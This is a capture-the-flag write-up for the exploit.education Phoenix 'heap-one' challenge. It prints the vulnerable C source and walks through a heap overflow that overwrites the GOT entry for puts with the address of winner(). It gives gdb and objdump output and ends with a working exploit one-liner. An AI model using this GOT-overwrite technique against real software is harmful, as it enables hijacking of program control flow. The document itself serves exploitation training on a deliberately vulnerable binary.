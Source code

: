 # HEAP ONE


## SOURCE CODE

```c
/*
 * phoenix/heap-zero, by https://exploit.education
 *
 * Can you hijack flow control?
 *
 * Which vegetable did Noah leave off the Ark?
 * Leeks
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}

```


## STRATEGY
The goal is execute *`winner`* function. To do that we have to use the *`strcpy`*. The *`strcpy`* takes a pointer and a string as parameters. Then write the string in the memory area pointed by the pointer. The two *`i1`* *`i2`* structures are allocated sequentially, so we can generate a heap overflow. We have to use the first *`strcpy`* to overwrite *`i2`* pointer with the address of GOT containing *`puts`*. With the second *`strcpy`* we have to write the address of the *`winner`* function in the GOT. When *`printf`* will be called the code will jump in *`winner`* function


## EXPLOIT
We can get *`winner`* address with objdump:
```shell
user@phoenix-amd64:/opt/phoenix/i486$ objdump -d heap-one | grep winner
0804889a <winner>:
```
address: 0x0804889a


```shell
Then with a *`pattern`* we can obtain the distance between *`i1->name`* and *`i2`*
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-one `python -c 'import struct; print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab" + " " + "KEBAB"'`
Segmentation fault
user@phoenix-amd64:/opt/phoenix/i486$ sudo dmesg |tail -n1
[sudo] password for user: 
[ 8012.868980] heap-one[395]: segfault at 37614136 ip 00000000f7f840db sp 00000000ffffd5b4 error 6 in libc.so[f7f6d000+8d000]
```
Number of bytes to fill before *`i2`*: 20


Last thing we need is GOT address with *`puts`*, so disassembling *`main`*:
```gdb
(gdb) disas main
Dump of assembler code for function main:
   ...
   ...
   ...
   0x08048878 <+163>:	add    esp,0x10
   0x0804887b <+166>:	sub    esp,0xc
   0x0804887e <+169>:	push   0x804ab70
   0x08048883 <+174>:	call   0x80485b0 <puts@plt>
   0x08048888 <+179>:	add    esp,0x10
   0x0804888b <+182>:	mov    eax,0x0
   0x08048890 <+187>:	lea    esp,[ebp-0x8]
   0x08048893 <+190>:	pop    ecx
   ...
   ...
   ...
```

disassembling plt at  0x80485b0

```gdb
(gdb) disas 0x80485b0
Dump of assembler code for function puts@plt:
   0x080485b0 <+0>:	jmp    DWORD PTR ds:0x804c140
   0x080485b6 <+6>:	push   0x28
   0x080485bb <+11>:	jmp    0x8048550
End of assembler dump.
```

*`puts`* address inside the GOT: 0x804c140

```gdb
During runtime:	
(gdb) x 0x804c140
0x804c140 <puts@got.plt>:	0xf7fb88ee
```


Exploit:
```python
./heap-one `python -c 'import struct; print "A"*20 + struct.pack("I", 0x804c140) + " " + struct.pack("I", 0x0804889a)'`
```
